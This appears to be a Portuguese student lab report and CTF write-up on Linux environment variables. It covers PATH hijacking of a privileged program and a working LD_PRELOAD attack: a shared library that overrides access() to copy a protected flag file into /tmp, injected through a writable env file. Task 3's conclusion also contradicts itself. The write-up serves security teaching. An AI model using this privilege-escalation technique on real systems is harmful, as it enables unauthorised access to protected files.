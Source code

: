 **Task 1:**
- Utilizamos o printenv e o env para dar “print” às variáveis de ambiente. Utilizamos também o  export e o unset  para dar “set” e “unset” nas mesmas variáveis de ambiente.

**Task 2:**
- Comparando as diferenças de ambos os files, usando o comando “diff”, percebemos que não há diferenças. 

![image 1](docs/images/Imagem1.png)

**Task 3:**
- Executando essa alteração, observamos que o programa executado terá acesso às variáveis de ambiente do programa original. Concluímos assim, que as variáveis de ambiente não são passadas automaticamente usando “execve()”, tendo estas de serem passadas por argumentos.

**Task 4:**
- Usando o “system()” ao invés do “execve()”, temos acesso às variáveis de ambiente do sistema completo, em vez de ser só as de utilizador.

**Task 5:**
- Ao contrário do espectável, apenas as variáveis PATH e ANY_NAME estavam presentes, faltando assim a LD_LIBRARY_PATH, que não estava disponível por questões de segurança.

**Task 6:**
- Foi possível alterar o “PATH” para o programa, de forma a que ao executar o “a.out”, este executasse o nosso ficheiro “ls” que dava “print” em “You just got hacked!”, em vez de executar o “system(“ls”). Desta forma o códico malicioso está a correr com “root privilegie”. Percebemos que quando corremos outro terminal sem as mesmas funcionalidades de segurança, o programa corre com privilégios de "root".

![image 2](docs/images/1af0b6f8-cedf-4f9b-938f-ac3c58a0d097.jpg)


## CTF semana \#4 Linux Environment

#### Investigação

Durante a investigação do servidor verificámos que existiam dois admins que partilhavam o mesmo ambiente de trabalho com a flag protegida por uma barreira de permissões. Descubrimos também que um dos admins deixou uma vulnerabilidade que nós, user nobody sem permissões, exceto na pasta /tmp e no executável flagreader, poderiamos aproveitar para chegar à flag.

#### Vulnerabilidade

Encontrámos um script a executar temporariamente que utiliza uma biblioteca partilhada, no entanto a vulnerabilidade não se encontrava no facto de ser uma biblioteca partilhada, mas sim  no ficheiro que contém as variáveis de ambiente a serem utilizadas pelo script ser um link para um ficheiro env da pasta /tmp podendo ser modificado pelo nobody(nós). Portanto é possível mudar a localização da biblioteca utilizada pelo programa e assim escrever uma função que será executada com permissão do flagreader acedendo à flag.

#### Código utilizado

    echo '
    #include <stdlib.h>

    int access(const char *pathname, int mode){
        system("/usr/bin/cat /flags/flag.txt > /tmp/tvic/flag.txt") ;
        system("chmod 777 /tmp/tvic/flag.txt");
        return 0;
    }' > /tmp/tvic/ataque.c

    gcc -fPIC -g -shared -o /tmp/tvic/ataque.so /tmp/tvic/ataque.c -lc

    echo 'LD_PRELOAD=/tmp/tvic/ataque.so' > /home/flag_reader/env

#### Prevenção

Uma opção para prevenir o ataque seria usar um caminho absoluto para o env em vez de um relativo ou proteger o ficheiro env.
